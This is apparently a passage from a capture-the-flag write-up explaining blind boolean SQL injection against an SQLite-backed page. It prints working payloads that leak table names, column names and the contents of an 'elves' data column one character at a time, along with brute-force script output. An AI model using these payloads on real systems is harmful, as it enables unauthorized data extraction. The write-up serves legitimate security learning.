 I have added comments to explain the code but I will explain the SQL query:

```sql
1 and 1=(CASE WHEN (SELECT SUBSTR(name,{position},1) FROM sqlite_master WHERE type='table' and name NOT like 'sqlite_%')='{l}' THEN 1 ELSE 2 END)"
```

We begin the query like I've explained above `1 and 1=` and then a CASE statement. The conditional for the CASE statement is where the bruteforcing is occuring:

```sql
SELECT SUBSTR(name,{position},1) FROM sqlite_master WHERE type='table' and name NOT like 'sqlite_%'='{l}'
```

Essentially, we're grabbing a single character at index `position` from the `name` column of the `sqlite_master` table where the `type` is a `table` and the `name` does not begin with `sqlite_`. We then compare this character to `l` which is the variable containing the current letter of the string of characters we're iterating through in the script.

When this selection equals `l`, the query is true and our CASE statement returns `1` which makes our query look like `1 and 1=1` thus returning the page like normal. This means we've successfully leaked the character at that index so we can increment the `position` variable and begin bruteforcing the next character.

Running the script we successfully leak the `elves` table:

```
...
trying elvep
bad
trying elveq
bad
trying elver
bad
trying elves
good
```

We can add additional `and name NOT like` statements to ensure we leak all of the tables, but in this case `elves` was the only table.

Now we need to leak the column names. The query for this looks like so:

```sql
1 and 1=(CASE WHEN (SELECT SUBSTR(c.name,{position},1) FROM pragma_table_info('elves') c WHERE c.name NOT like 'id%' and c.name NOT like 'data%')='{l}' THEN 1 ELSE 2 END)"
```

The only difference here is we're using the `pragma_table_info` function to access the column names of the `elves` table we leaked before. The `c.name NOT like` statements were added as I leaked all of the column names. In this case, I was able to leak the `id` and `data` columns.

Great, now we can start leaking the values out of the data column. The final query looks like this:

```sql
1 and 1=(CASE WHEN (SELECT unicode(SUBSTR(data,{position},1)) FROM elves WHERE id=1)={ord(l)} THEN 1 ELSE 2 END)"
```
